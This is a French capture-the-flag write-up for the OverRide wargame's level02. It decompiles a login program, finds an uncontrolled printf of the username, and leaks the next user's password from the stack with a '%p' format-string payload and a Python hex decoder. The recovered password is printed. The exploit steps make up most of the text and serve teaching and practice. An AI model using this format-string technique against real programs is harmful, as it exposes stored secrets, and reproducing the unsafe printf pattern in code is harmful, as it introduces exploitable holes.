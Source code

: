 # **Level 02**

Code decompiler:

```
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long lVar3;
  undefined8 *puVar4;
  undefined8 local_118 [14];
  undefined8 local_a8 [6];
  undefined8 local_78 [12];
  int local_14;
  FILE *local_10;
  
  puVar4 = local_78;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  puVar4 = local_a8;
  for (lVar3 = 5; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined *)puVar4 = 0;
  puVar4 = local_118;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  local_10 = (FILE *)0x0;
  local_14 = 0;
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn((char *)local_a8,"\n");
  *(undefined *)((long)local_a8 + sVar2) = 0;
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fclose(local_10);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets((char *)local_78,100,stdin);
  sVar2 = strcspn((char *)local_78,"\n");
  *(undefined *)((long)local_78 + sVar2) = 0;
  printf("--[ Password: ");
  fgets((char *)local_118,100,stdin);
  sVar2 = strcspn((char *)local_118,"\n");
  *(undefined *)((long)local_118 + sVar2) = 0;
  puts("*****************************************");
  iVar1 = strncmp((char *)local_a8,(char *)local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  printf((char *)local_78);
  puts(" does not have access!");
                    // WARNING: Subroutine does not return
  exit(1);
}
```
On remarque tres vite un `printf` qui n'est pas au bon `format` a la ligne 75 `printf((char *)local_78);`
Nous serons donc probablement sur un exploit `Format string attack`
Testons un peu le programme,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```
Maintenant avec du format pris en charge par printf, sachat que le printf mal former affiche l'username,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p
--[ Password: test
*****************************************
0x7fffffffe4f0 does not have access!
```
De plus, on peut voir dans le code que le `.pass` du `user suivant` est `stocker` dans la `stack` apres un open puis un read.
Donc si l'on affiche des %p avec notre printf, nous devrions voir notre .pass apparaitre
```
level02@OverRide:~$ (python -c "print '%p '*200"; python -c "print 'test'") > /var/crash/file
level02@OverRide:~$ cat /var/crash/file - | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8
0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758
0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
On voit donc en sortie, notre enchainement de `702520` qui correspond a `'%p '` une suite de characteres pui de nouveau notre enchainement,
Penchons nous sur ces characteres:
`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Si on decode de l'hexa vers l'ascii la premiere suite (en enlevant le 0x au prealable), on obtient `unPR47hH`,
Or on sait que les adresses sont notees en little endian, donc il faut reverse le resultat, ce qui donne `Hh74RPnu`.
Faisons sur le tout,
```
decrypt.py

l = "756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"
l = l.split()
for s in l:
	print(bytearray.fromhex(s).decode()[::-1], end="")
print("")

```
```
python decrypt.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
testons ce password pour level03,
```
level02@OverRide:~$ su level03
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
```
